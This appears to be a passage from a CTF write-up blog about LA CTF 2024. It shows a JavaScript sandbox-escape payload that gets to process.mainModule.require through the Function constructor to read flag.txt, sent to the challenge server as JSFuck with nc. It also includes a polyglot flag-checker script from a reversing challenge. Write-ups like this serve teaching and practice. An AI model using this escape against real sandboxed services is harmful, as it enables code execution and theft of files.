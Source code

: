 This gets a `Promise` object's constructor (`Promise`)'s constructor (`Function`) to create a function that returns `process`, then access `require` via `process.mainModule.require`.

My exfiltration script looked very similar:


```js
console.log(import('fs').constructor.constructor('return process')().mainModule.require('fs').readFileSync('flag.txt').toString())
```

I turned this into JSFuck and plugged it into the server. 🎉

```shell
$ cat test/lactf-jsfudge.js | nc chall.lac.tf 31130
Gimme some js code to run
lactf{d0_y0u_f331_pr0ud}

oopsie woopsie stinki poopie TypeError: Cannot read properties of undefined (reading 'toString')
    at runCode (/app/run:17:25)
    at /app/run:31:5
    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)
```

Here's links to [lactf-jsfudge.js][gen] (392 kB) and the [code that generates it][gener].

[gen]: ../files/lactf/lactf-jsfudge.js
[gener]: ../files/lactf/jsfudge-codegen.js

## rev/glottem

> **rev/glottem**
> by aplet123.
> 89 solves / 455 points
>
> Haha glottem good!
>
> Note: The correct flag is 34 characters long.
>
> **Downloads**:
> [glottem](https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem)

This is a pretty cool challenge.

```sh
#!/bin/sh
1<<4201337
1//1,"""
exit=process.exit;argv=process.argv.slice(1)/*
4201337
read -p "flag? " flag
node $0 "$flag" && python3 $0 "$flag" && echo correct || echo incorrect
1<<4201337
*///""";from sys import argv
e = […]
alpha="abcdefghijklmnopqrstuvwxyz_"
d=0;s=argv[1];1//1;"""
/*"""
#*/for (let i = 0; i < s.length; i ++) {/*
for i in range(6,len(s)-2):
    #*/d=(d*31+s.charCodeAt(i))%93097/*
    d+=e[i-6][alpha.index(s[i])][alpha.index(s[i+1])]#*/}
exit(+(d!=260,[d!=61343])[0])
4201337
```


[acmucsd]: https://acmucsd.com/communities#Cyber
[acmucla]: https://www.acmcyber.com/
[lactf]: https://lac.tf/
[jsfuck]: https://jsfuck.com/
[strings]: https://en.wikipedia.org/wiki/Strings_(Unix)
[ghidra]: https://ghidra-sre.org/
[dogbolt-aplet321]: https://dogbolt.org/?id=4c61df44-da40-4158-80b4-f4155fbf227e
[strstr]: https://cplusplus.com/reference/cstring/strstr/
[bendera]: https://en.wiktionary.org/wiki/bendera#Indonesian
[wiki]: https://id.wikipedia.org/wiki/Bendera_Indonesia
[dcode]: https://www.dcode.fr/monoalphabetic-substitution
[indofreq]: https://www.sttmedia.com/characterfrequency-indonesian
[^1]: Something I never got to use at UCSD because UCSD didn't have a two-year housing guarantee.
[^2]: The deepest darkest secret doesn't work because the server just sets it to `todo` for all non-Samy users.
[fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[italics]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics
[^10]: You might be wondering how JSFuck can create a function in the first place. You can get `a` from `false` and `t` from `true`, and arrays have a method named `at`, which you can access with `[]['a' + 't']`. It's also possible to get the other letters in `constructor`, so you can use `[]['at']['constructor']` to get a reference to the `Function` constructor, which you can use to convert strings to functions. For example, `Function('return 3')` creates a function that returns 3.
[prior]: http://127.0.0.1:4000/longer-tweets/ctf/#ctf-node-calculator-escape-vm-codegeneration-false
[vuln]: https://security.snyk.io/vuln/SNYK-JS-SAFEEVAL-3373064
[e]: https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem#L10
[polyglot]: https://en.wikipedia.org/wiki/Polyglot_(computing)
[^11]: This was originally a Node-specific feature that has recently been [standardized into JavaScript][shebang], adding a fourth comment syntax to JavaScript's existing family of `//`, `/* */`, and `<!-- -->`.
[shebang]: https://github.com/tc39/proposal-hashbang
[server]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/server.js
[note]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/note.js
[nesting]: https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_nesting
[^12]: I tried looking through my browsing history, but there's no evidence of me ever learning about this from anything online. Based on my browsing history, it just looks like I was trying things like `<span id="document">` then suddenly had a stroke of genius and tried doing `<form name=querySelectorAll>`. Then, I got confused where I got this idea from and tried to look up "form name getelementbyid injection" to find the original post.
[^13]: Again, as noted at the beginning of the article, everyone at UCSD is part of our team. I don't think this counts as cheating. At worst it's just some OSINT.
[paradox]: https://www.dcode.fr/birthday-problem
[^14]: It's possible for a trigraph to be missing a pair, like having `abc` but not `ab`, due to CSS variable collisions.
[worker]: https://workers.cloudflare.com/
[tunnel]: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/
[workers]: https://blog-cloudflare-com.webpkgcache.com/doc/-/s/blog.cloudflare.com/announcing-workers-dev/
[^15]: Like our dining halls' mobile ordering app.